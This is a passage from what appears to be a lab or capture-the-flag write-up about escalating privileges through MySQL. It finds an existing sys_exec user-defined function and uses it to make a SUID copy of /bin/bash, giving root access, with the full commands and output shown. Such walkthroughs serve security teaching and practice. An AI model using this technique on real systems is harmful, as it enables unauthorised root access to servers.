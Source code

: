 But it appears that the function `sys_exec` already exists in the database. We can check these functions in the database `mysql` in a table called `func`.

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              | 
| db                        | 
| func                      | 
| help_category             | 
| help_keyword              | 
| help_relation             | 
| help_topic                | 
| host                      | 
| proc                      | 
| procs_priv                | 
| tables_priv               | 
| time_zone                 | 
| time_zone_leap_second     | 
| time_zone_name            | 
| time_zone_transition      | 
| time_zone_transition_type | 
| user                      | 
+---------------------------+
17 rows in set (0.00 sec)

mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)
```

And here it can be seen that `sys_exec` already exists. So, all we need to do now is use this function to create a copy of `/bin/bash` and set its SUID bit so that we can access that copied binary as `root`.

```bash
mysql> select * from func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec("cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot");
+------------------------------------------------------------+
| sys_exec("cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot") |
+------------------------------------------------------------+
| NULL                                                       | 
+------------------------------------------------------------+
1 row in set (0.01 sec)

```